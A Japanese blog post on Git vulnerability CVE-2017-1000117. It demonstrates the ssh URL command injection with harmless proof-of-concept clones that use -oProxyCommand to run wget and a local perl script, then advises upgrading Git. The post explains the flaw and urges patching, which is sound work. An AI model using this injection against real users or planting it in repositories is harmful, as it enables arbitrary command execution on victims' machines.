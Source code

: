 ```yaml
---
title: "Gitの脆弱性(CVE-2017-1000117)について調べてみた"
date: 2017-08-15T19:49:07Z
slug: "000003"
tags: ["Git", "脆弱性"]
draft: false
eyecatch: "profile.jpg"
---
```

8/11にGitの脆弱性 ( CVE-2017-1000117 )が発生しました。  

<https://oss.sios.com/security/git-security-vulnerabiltiy-20170813>

内容はこうです。  

>gitクライアント上での任意のコマンド実行の可能性
>
>Gitでの"ssh"URLハンドリングにshellコマンドインジェクションの欠陥が見つかりました。
>これを利用して、悪意のあるレポジトリや悪意のあるコミットを行われたを
>レポジトリに対して"clone"アクションをGitクライアントで実行した際に、
>Gitクライアントを実行したユーザの権限でshellコマンドを実行される可能性が有ります。

どうやらsshのURL部にOSコマンドインジェクションを埋め込めるようです。  

## 脆弱性を確認する
では試してみます。

```sh
$ git --version
#git version 1.9.1

$ git clone ssh://-oProxyCommand='wget www.google.co.jp'/hoge

#Cloning into 'hoge'...
#Pseudo-terminal will not be allocated because stdin is not a terminal.
#--2017-08-15 05:06:18--  http://www.google.co.jp/
#Resolving www.google.co.jp (www.google.co.jp)... 216.58.221.3, 2404:6800:4004:814::2003
#Connecting to www.google.co.jp (www.google.co.jp)|216.58.221.3|:80... connected.
#HTTP request sent, awaiting response... 200 OK
#Length: unspecified [text/html]
#Saving to: ‘index.html’
#
#    [ <=>                                                                                                                                                                                                ] 10,643      --.-K/s   in 0s      
#
#2017-08-15 05:06:18 (301 MB/s) - ‘index.html’ saved [10643]
#
#ssh_exchange_identification: Connection closed by remote host
#fatal: Could not read from remote repository.
#
#Please make sure you have the correct access rights
#and the repository exists.

$ ls
#index.html
```

おっと、簡単にwget出来てしまいました。。

スクリプトも実行できるんでしょうか？
perlで以下のようなスクリプトを作ってみます。

```perl
#!/usr/bin/perl

open(FILE, '> /tmp/hoge');
print FILE "hoge";
close(FILE);
```

これを実行できるか試してみます。  

```sh
$ git clone ssh://-oProxyCommand='perl test.pl'/hoge

#Cloning into 'hoge'...
#Pseudo-terminal will not be allocated because stdin is not a terminal.
#fatal: Could not read from remote repository.
#
#Please make sure you have the correct access rights
#and the repository exists.

$ cat /tmp/hoge
#hoge
```

perlも簡単に実行できました。

こんなリポジトリ名なら、普通Cloneしないと思いますが、  
同じようなことがGitサブモジュールでも出来るようなので  
仕組まれていたら気づかない可能性もあります。

なので、__Gitのバージョンアップは早めにやっちゃいましょう！__

## Gitのバージョンアップ方法
環境はUbuntuです。

```sh
$ sudo apt-get update
$ sudo apt-get install git git-man

# 確認
$ sudo dpkg -l | grep git
```

